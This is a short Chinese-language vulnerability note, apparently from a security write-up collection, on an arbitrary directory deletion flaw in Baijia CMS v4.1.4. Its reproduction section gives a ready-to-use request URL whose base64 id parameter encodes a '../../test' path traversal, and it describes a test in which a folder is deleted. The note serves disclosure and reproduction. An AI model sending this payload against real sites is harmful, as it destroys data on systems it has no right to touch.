

百家cms v4.1.4 任意路径删除漏洞
===============================

一、漏洞简介
------------

二、漏洞影响
------------

百家cms v4.1.4

三、复现过程
------------

    # 需要后台权限
    # 只能删除路径
    http://www.0-sec.org/index.php?mod=site&act=manager&do=database&op=delete&id=Li4vLi4vdGVzdA==&beid=1

根目录下创建test文件夹，里面有内容为123的test.txt文件

访问payload将参数转为base64并方位payload

查看文件夹，已被删除

参考链接
--------

> https://xz.aliyun.com/t/7542
